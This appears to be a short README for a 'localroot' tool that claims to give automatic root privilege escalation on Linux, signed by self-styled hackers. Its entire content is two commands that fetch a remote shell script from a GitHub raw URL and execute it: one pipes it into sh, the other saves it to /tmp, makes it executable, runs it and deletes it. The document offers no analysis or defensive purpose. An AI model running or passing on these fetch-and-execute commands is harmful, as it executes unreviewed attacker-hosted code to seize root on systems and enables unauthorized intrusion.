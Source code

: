 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh | sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```


☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
